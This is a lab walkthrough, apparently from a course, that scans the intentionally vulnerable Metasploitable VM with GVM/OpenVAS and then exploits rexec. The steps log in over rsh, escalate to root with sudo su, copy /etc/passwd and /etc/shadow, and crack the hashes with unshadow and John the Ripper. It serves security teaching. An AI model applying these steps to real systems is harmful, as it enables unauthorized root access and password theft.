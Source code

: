 Some people get confused about the relationship between the popular OpenVas tool and GVM. OpenVas is a component of GVM that is launched through the GVM interface.

### Step 1: Start GVM services.

1. Start the GVM scanner using the **sudo gvm-start** command. You can also access the **gvm-start** script using the Applications menu on the Kali desktop, **Kali ->02-Vulnerability Analysis -> gvm start**.

┌──(kali㉿Kali)-[~]

└─$ **sudo gvm-start**

**Note**: You may receive the message “**GVM services are already running**.” If the browser does not automatically open, start your browser manually and navigate to **https://127.0.0.1:9392**. The Greenbone Security Assistant login screen will appear in the browser.

2. In the Greenbone Security Assistant login box, enter **admin** as the username and **kali** as the password.

Username: **admin**

Password: **kali**

### Step 2: Scan a host.

In this step, you will scan the Metasploitable vulnerable host using the GVM scanner. This scan may take some time, so be prepared to wait at least 20 or more minutes for it to complete.

1. The GVM Scanner application GUI should open in the browser. Select **Scans -> Tasks** from the menu bar. At the upper left of the **Tasks** window appear three icons. Select the **Task Wizard** icon that looks like a magic wand. Choose **Advanced Task Wizard** from the dropdown menu.
2. In the Advanced Task Wizard window, enter **Metasploitable** as the scan name. In the Target Host(s) field, enter the IP address of Metasploitable, **172.17.0.2**. Leave the rest of the settings unchanged and click **Create** to create the task and start the scan.
3. The Task window indicates the task is running. At the bottom of the window, the task Metasploitable is listed, and the status bar shows the percent complete. Wait until the status shows Done (100% complete). This could take 30 minutes or more.
4. Click the number **1** under the Reports column in the Metasploitable row, next to the status indicator. The report list opens with an entry for the current day and time and the task named Metasploitable.

Open the report by clicking the date and time link under the Date column. The report window opens. There are eleven tabs that show various results that were found during the scan. Click the **Results** tab. The vulnerabilities found are listed in order of severity.

We find a rexec exploit and try to use it.

##### Exploit

Package seems to be missing so here is a work around:

- curl -O http://http.us.debian.org/debian/pool/main/n/netkit-rsh/rsh-client_0.17-17+b1_amd64.deb
- dpkg -i rsh-client_0.17-17+b1_amd64.deb
- rlogin -l root 192.168.0.123
- apt-cache search rsh-client
- found rsh-redone-client?        # This worked for the cisco course.

1. To access the Metasploitable target to exploit the rexec vulnerability, you will need a remote shell client. Use apt-get to install a remote shell (RSH) client on the Kali Linux VM.

┌──(kali㉿Kali)-[~]

└─$ **sudo apt-get install rsh-client**

2. Attempt to log in to the Metasploitable target with the username **msfadmin** using **RSH**. The syntax for the **rsh** command is **rsh -l** [_username_] [_target IP or hostname_]

┌──(kali㉿Kali)-[~]

└─$ **rsh -l msfadmin 172.17.0.2**

3. The login is successful. The prompt changes to the msfadmin user at the remote computer. Use the **pwd** command to determine the remote directory.

msfadmin@metasploitable:~$ **pwd**

/home/msfadmin

4. Attempt to gain root access to Metasploitable using the **sudo su** command. When prompted for a password enter the **msfadmin** password that you uncovered earlier.

msfadmin@metasploitable:~$ **sudo su**

[sudo] password for msfadmin: **msfadmin**

root@metasploitable:/home/msfadmin#

5. At this point, you have full root access to the target computer and can execute commands, upload or download files, or add users. Type **exit** twice to return to the Kali CLI. A message should appear that says **rlogin: connection closed**.

You can copy the /etc/passwd and /etc/shadow files to get the usernames and hashed passwords.

Unshadow can combine the two files and the resulting file can be used by John the Ripper to find the clear text passwords.

```
unshadow passwd.txt shadow.txt > output.db
```

```
john output.db
```

Using wordlist
```
john output.db --wordlist=/usr/share/wordlist/rockyou.txt
```

You exploited the rexec remote access vulnerability that was discovered by GVM by downloading and installing a client that is compatible with rexec. To establish the session, you needed login credentials, so you used SMB enumeration with Nmap to discover clear text credentials on the target. Finally you connected to the target with the rexec client and used the credentials to initiate a session that gave you remote terminal access as root.


